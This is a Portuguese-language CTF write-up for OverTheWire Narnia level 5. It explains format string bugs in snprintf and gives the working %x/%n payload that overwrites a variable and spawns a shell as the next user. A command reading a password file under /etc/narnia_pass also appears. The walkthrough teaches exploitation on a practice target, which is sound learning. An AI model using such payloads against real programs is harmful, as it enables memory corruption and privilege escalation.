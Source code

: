 ```yaml
---
layout: post
title: Level 5 - Format String Attack [OverTheWire CTF – Narnia]
date: 2017-05-31 17:14
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Narnia OverTheWire, format string, exploits]
---
```

<ul>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">Level 0</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-narnia-write-up">Level 1</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">Level 2</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-3-overthewire-ctf-narnia-write-up">Level 3</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-4-overthewire-ctf-narnia-write-up">Level 4</a></li>
</ul>

Quem diria que é mais trabalhoso escrever writeup do que resolver os desafios? Mas continuo firme e forte na tentativa de documentar e ensinar um pouco que sei para os próximos 1337 afim de aprender.

Hora de ownar o <strong>narnia5</strong>.

<script src="https://gist.github.com/anonymous/f6fb1753c42a085a65b9cc1f21948bdf.js"></script>

O objetivo é claro, mudar o valor da variável <strong>i</strong> de 1 para 500. Hora de ver o código e criar teorias de como fazer isso.

<script src="https://gist.github.com/anonymous/d743b46c946ffe171ea2a2ca5aa04f6f.js"></script>

No inicio da função, <strong>i</strong> recebe o valor 1 e <strong>buffer</strong> é declarado como um vetor de char de tamanho 64. Depois, <a href="http://www.cplusplus.com/reference/cstdio/snprintf/">snprintf</a> manda para buffer 64 caracteres do argumento que passamos para o programa. É aqui que mora a vulnerabilidade que vai permitir mudar o valor de i.

snprintf recebe como argumentos: um ponteiro para o buffer onde será guardado o valor, o tamanho máximo de bytes que será copiado para o buffer e uma string (também podem haver argumentos opcionais). Se a função for chamada desta forma: <em>snprintf(buffer, 100, "Sou uma %s", "string")</em>, irá salvar em buffer o valor <em>"Sou uma string"</em> porque substitui o <em>%s</em> pelo argumento seguinte, a palavra <em>"string"</em>. É tipo o que <a href="http://www.cplusplus.com/reference/cstdio/printf/">printf</a> faria, mas ao invés de imprimir na tela, salva o resultado em algum lugar.

Assim como os outros da família printf, snprintf quando usada de forma relapsa abre espaço para ataques de <a href="https://www.owasp.org/index.php/Format_string_attack">format string</a>.

Uma<em> format string </em>é uma string ASCII que pode conter texto e parâmetros de formatação.

```printf(Sua senha do facebook é %s, x41Ax41A)```

A tal <em>format string</em> seriam os argumentos para a função printf aí de cima. Você pode ver que, ao executar esta linha, a função espera uma string como argumento para substituir o identificador %s.

Há outros identificadores como %d para inteiros, %c para caracteres, %x para hexademical, %p para ponteiros, %n que te digo a utilidade depois...

No chall, a função está sendo chamada passando como argumento de formatação o que digitarmos:

```snprintf(buffer, sizeof buffer, argv[1])```

Ao invés do correto, que seria:

```snprintf(buffer, sizeof buffer, %s, argv[1])```

No primeiro caso, temos controle da string de formatação. Isto significa que inserir como argumento um "%s" fará com que snprintf tente imprimir uma string. Mesmo que essa string não exista.

```
narnia5@narnia:/narnia$ ./narnia5 %s
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒u^▒L9L$▒Av9▒D▒] (23)
i = 1 (0xffffd74c)
```

Consegue ver essa quantidade de lixo? Isso acontece porque, em uma chamada saudável para snprintf, por exemplo: <em>snprintf(buffer, 25, "%d %s", a, &amp;b)</em>  os dados ficariam organizados dessa forma:

```
(topo da stack)
Endereço_de_retorno -
endereço_de_b -
valor_de_a
...
(fundo da stack)
```

É na stack que snprintf espera que os valores ou endereço destes valores estejam. Assim, não importa se esses valores tenham ou não sido passados como argumento para a função, snprintf irá ler o que estiver na stack.

Há uma forma de ver esse mal comportamento na prática usando o chall. Ao passar argumentos suficientes, é possível ler o próprio argumento da stack.

```
narnia5@narnia:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [AAAA.f7eb7fe6.ffffffff.ffffd71e.f7e2ec34.41414141] (49)
i = 1 (0xffffd73c)
```

Usei %x para imprimir os valores em hex e você pode ver que o quinto %x foi substituído pelo valor <em><a href="https://pt.wikipedia.org/wiki/ASCII">41414141</a></em>.

Bom, ler conteúdo arbitrário da memória têm suas <a href="https://security.stackexchange.com/questions/43489/can-i-read-write-canary-values-from-gs-register/43844#43844">utilidades</a>. Mas o objetivo é ganhar uma shell. E para isso acontecer, não é preciso ler e sim sobrescrever i.

É aí que entra o especificador %n. Ao contrário de todos outros, sua utilidade não é formatar para apresentar um valor e sim escrever.

O %n escreve, na variável que for especificada, o número de bytes que foram escritos antes dele.

```printf(12345%n, &amp;variavel)```

A linha de código acima, além de imprimir "<em>12345</em>", irá escrever o inteiro 5 em <em>variavel</em>.

O programa é amigável e ainda nos informa em que lugar da memória está guardado o valor da variável i. Tudo que é preciso é: explorar a format string para escrever 500 bytes e escrever %n no endereço de i.

Agora saindo da teoria para a prática.

Lembra como, após alguns endereços, se consegue imprimir o próprio valor inserido? É dessa forma que passamos o endereço de i.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%x%x%x%x%n &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp;'`
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒▒▒f7eb7746ffffffffffffd6bef7e2fc34] (36)
i = 36 (0xffffd6dc)
```

Uow, viu isso? Vamos por partes:

No começo do argumento venenoso que mandei (usei o python para escrever no formato que se deve mas, se simplesmente não entendeu o que fiz, tente ler os <a href="https://brerodrigues.github.io/category/CTFs">write-ups anteriores do narnia</a> que é onde explico mais cuidadosamente esses paranauê) temos <em>ff ff d6 dc</em>, o endereço de i.

Após o endereço, usei uns %x para sair puxando uns valores da stack até chegar no início do meu próprio argumento, que será <em>ff ff d6 dc</em>. E é ai que entra o %n, que vai alegremente escrever a quantidade de bytes já escritos em <em>ff ff d6 dc</em>.

Por esse motivo que i teve seu valor substituído por 36. Não é por coincidência que o tamanho de buffer também seja 36.

Agora se pode passar um argumento com 500 bytes e ver /bin/sh ser executado com privilégios de narnia6.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%-472s%x%x%x%n'`
Change i's value from 1 -500. GOOD
$ cat /etc/narnia_pass/narnia5
cat: /etc/narnia_pass/narnia5: Permission denied
$ whoami
narnia6
```

Nem precisa escrever na mão os 500. O <a href="https://stackoverflow.com/questions/276827/string-padding-in-c">%472s</a> faz o trabalho de preencher o buffer.

Esse desafio só arranha bem pouco a superfície que é o poder que se tem ao explorar uma falha em format strings. Ao contrário de stack overflows simples (sem nenhuma contramedida), que são raríssimos de se ver na prática hoje em dia, format strings ainda são exploradas atualmente. Mesmo que na maioria das vezes seja apenas como um "meio" para o exploit funcionar. O que quis dizer é que: se você for buscar conhecimento, vai encontrar altas maneiras extravagantes e quase mágicas de se usar uma falha desse tipo para vários fins. Cheque <a href="https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf">este PDF </a>se ficou curioso.
